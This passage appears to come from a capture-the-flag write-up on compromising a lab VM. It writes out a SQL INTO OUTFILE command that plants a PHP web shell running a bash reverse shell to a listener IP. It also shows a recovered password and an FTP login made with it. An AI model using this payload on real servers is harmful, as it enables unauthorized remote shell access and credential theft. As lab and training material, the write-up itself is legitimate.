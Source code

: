 [See detailed writeup here](../writeup1.md)

After connecting to the database as root, we start a reverse shell with the following command:

```
SELECT '<?php system("bash -c \'sh -i >& /dev/tcp/172.28.104.151/4242 0>&1\'"); ?>' 
INTO OUTFILE '/var/www/forum/templates_c/rev.php'
```

>After the **/dev/tcp/**, we need to enter the IP address and port of the computer we are listening on. I wrote it this way because my current computer's IP address is 172.28.104.151.
>
>From here on, since we have terminal access, the content is identical to what we've written in the other writeups.


```
$ cat /home/LOOKATME/password

lmezard:G!@M6f4Eatau{sF"
```

---

> # Part in common with other writemeup files


Yes, we got our password. Let's see where we can use it.


Remember:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

We obtained these at the beginning of the project.

When we tried our username and password over SSH, we noticed it didn't work, but it works over FTP.

```
lmezard:G!@M6f4Eatau{sF"
```

```
PS C:\Users\Admin> ftp 192.168.193.128
Connected to 192.168.193.128.
220 Welcome on this server
200 Always in UTF8 mode.
User (192.168.193.128:(none)): lmezard
331 Please specify the password.
Password:

230 Login successful.
ftp>
```
